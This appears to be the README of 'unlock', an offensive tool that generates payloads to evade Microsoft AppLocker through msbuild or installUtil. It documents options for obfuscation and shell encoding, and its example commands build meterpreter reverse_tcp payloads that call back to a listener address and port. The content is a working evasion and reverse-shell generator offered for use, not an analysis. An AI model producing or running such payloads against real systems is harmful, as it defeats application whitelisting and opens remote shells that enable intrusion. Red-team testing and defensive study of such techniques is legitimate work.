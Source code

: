 # unlock
Microsoft Applocker evasion tool

Unlock aims to be an easy tool for generating payloads which can bypass MS applocker restriction.
The code is heavily based on subtee work.

## Usage

unlock.py [-h] [--output FILENAME] [--framework FWV] [--payload PAYLOAD] [--lhost LHOST] [--lport LPORT]  [--method METHOD] [--enaobf] [--encshell ENCSHELL] [--custom CUSTOM] [--x64]  

## Arguments:
--output FILENAME   Output file name without extension  
--framework FWV      Framework NET version  
--payload PAYLOAD    Payload in MSF syntax  
--lhost LHOST        Local host for reverse shell  
--lport LPORT        Local port for reverse shell  
--method METHOD      Evasion method: msbuild or installUtil  
--enaobf             Enable CS code obfuscation  
--encshell ENCSHELL  Encode shell with: *date* or hostname  
--custom CUSTOM      Custom binary payload (don't use with --payload/--lhost/--lport)  
--x64                set if your custom payload is x64  

## Examples
- python unlock.py --framework 4.0 --payload windows/x64/meterpreter/reverse_tcp --lhost 192.168.0.1 --lport 4444 --method installUtil  
- python unlock.py --framework 4.0 --payload windows/meterpreter/reverse_tcp --lhost 192.168.0.1 --lport 4444 --method msbuild  
- python unlock.py --framework 4.0 --custom shellcode.bin --x64  
